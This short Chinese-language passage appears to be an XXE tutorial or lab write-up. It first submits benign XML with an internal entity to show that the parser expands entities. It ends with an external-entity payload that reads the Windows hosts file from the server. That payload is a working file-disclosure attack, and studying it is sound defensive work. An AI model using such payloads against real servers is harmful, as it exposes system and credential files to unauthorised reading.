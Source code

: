 我们先提交一个正确的xml
<?xml version="1.0" encoding="UTF-8" ?>
 
<!DOCTYPE note [
    <!ENTITY hack "hello world">
]>
 
<name>&hack;</name>

我们发现，该xml被成功解析了

<?xml version="1.0" encoding="UTF-8" ?>
 
<!DOCTYPE note [
    <!ENTITY hack "test">
]>
 
<name>&hack;</name>


外部实体引用 Payload，访问服务器上的hosts文件
<?xml version="1.0"?>
<!DOCTYPE ANY[ 
<!ENTITY f SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
]>
<x>&f;</x>